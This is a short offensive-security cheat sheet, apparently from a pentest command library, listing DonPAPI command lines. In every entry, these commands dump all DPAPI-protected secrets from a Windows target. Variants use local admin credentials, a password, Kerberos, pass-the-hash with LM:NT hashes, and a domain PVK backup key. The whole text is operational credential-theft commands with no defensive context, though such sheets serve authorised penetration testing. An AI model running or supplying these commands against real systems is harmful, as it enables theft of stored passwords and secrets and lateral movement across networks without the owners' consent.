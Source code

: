 # DonPAPI

% DonPAPI, dpapi

#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## DonPAPI - Dump all secrets of the target machine with Local Admin
```
DonPAPI -local_auth <user>@<target>
```

## DonPAPI - Dump all secrets of the target machine with Local Admin (creds)
```
DonPAPI <domain>/<user>:<password>@<target>
```
## DonPAPI - Dump all secrets of the target machine with Local Admin (kerberos)
```
DonPAPI -k <domain>/<user>@<target>
```

## DonPAPI - Dump all secrets of the target machine with Local Admin (pth)
```
DonPAPI --hashes <LM>:<NT> <domain>/<user>@<target>
```


## DonPAPI - Dump all secrets with Domain Admin and PVK (pth)
run dpapi.py to get PVK
```
DonPAPI -pvk <pvk_path> -o <out_path> --hashes <LM>:<NT> <domain>/<user>@<target>
```